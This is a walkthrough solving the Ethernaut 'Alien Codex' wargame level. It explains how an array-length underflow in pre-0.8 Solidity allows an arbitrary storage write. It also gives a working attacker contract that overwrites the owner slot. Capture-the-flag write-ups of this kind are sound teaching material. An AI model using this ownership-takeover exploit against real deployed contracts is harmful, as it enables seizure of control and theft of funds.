 # Alien Codex Ethernaut

## Goals

=> You've uncovered an Alien contract. Claim ownership to complete the level.

### Hints

- Understanding how array storage works

- Understanding ABI specifications

- Using a very underhanded approach

### Solution

- Owner is stored in the 0th Storage slot, when `make_contact()` is being called the boolean `contact` get's also stored in the 0th storage slot

- Our (length of the) codex array is stored in the slot 1 so we can calculate where our array will actually be stored since it's a dynamic array we can calculate the slot by taking the `keccak256` of slot 1 which gives us `80084422859880547211683076133703299733277748156566366325829078699459944778998` here the first value will get stored if we decide to put in values

- By calling the `retract()` function we can achieve an underflow since there is no safeMath library & the solidity version < 0.8, so now our array will be `type(uint256).max` long

- Now we can write to an arbitrary slot with the `revise()` function, we are able to calculate the slot which will over flow by subtracting `80084422859880547211683076133703299733277748156566366325829078699459944778998` from `type(uint256).max + 1` which will result in `35707666377435648211887908874984608119992236509074197713628505308453184860938` that will cause an overflow and the storage slot we write to now is 0 where the owner is stored.

- So by calling `revise()` with the index of our calculated slot, and our address padded with zeros like so `0x000000000000000000000000e4064d8E292DCD971514972415664765e51B5364` we will overwrite slot 0 of the conrtract with our address as the new owner

### Attacker Contract

```solidity
contract Hack {
    // So we retrieved the storage slot we will start at which is the keccak256 of the storrage slot (1) =>
    // 80084422859880547211683076133703299733277748156566366325829078699459944778998
    // and the following is the Max of a uint256
    // 115792089237316195423570985008687907853269984665640564039457584007913129639935
    // so we need to write to that storage slot + 1 to land on the 0th storage slot where "owner" is stored
    // to cause an overflow on the storage we can change the owner which is stored and packed together with the
    // "contact" boolean we could theoretically achieve that by writing to the
    // (115792089237316195423570985008687907853269984665640564039457584007913129639935 + 1)
    // - 80084422859880547211683076133703299733277748156566366325829078699459944778998 = x
    // => x = 35707666377435648211887908874984608119992236509074197713628505308453184860938 th slot
    // and put in our address padded to 32 bytes + the slot into the revise function

    // Step 1: call make_contact()
    // Step 2: call retract()
    // Step 3: call revise with the calculated slot x from above and your address padded with zeros to the left to 32 bytes

    AlienCodex public target;
    uint256 constant ATTACK_NUMBER =
        35707666377435648211887908874984608119992236509074197713628505308453184860938;
    bytes32 constant MY_ADDRESS_PADDED =
        0x000000000000000000000000e4064d8E292DCD971514972415664765e51B5364;

    constructor(address _alienCodex) public {
        target = AlienCodex(_alienCodex);
        target.make_contact(); // set boolean to be able to interact with contract
        target.retract(); // make it underflow so the length of the array is sufficient that we can access the ATTACK_NUMBER th slot
    }

    // Now revise the ATTACK_NUMBER th slot and put in the address padded with zeros
    function attack() external {
        target.revise(ATTACK_NUMBER, MY_ADDRESS_PADDED);
    }
}
```
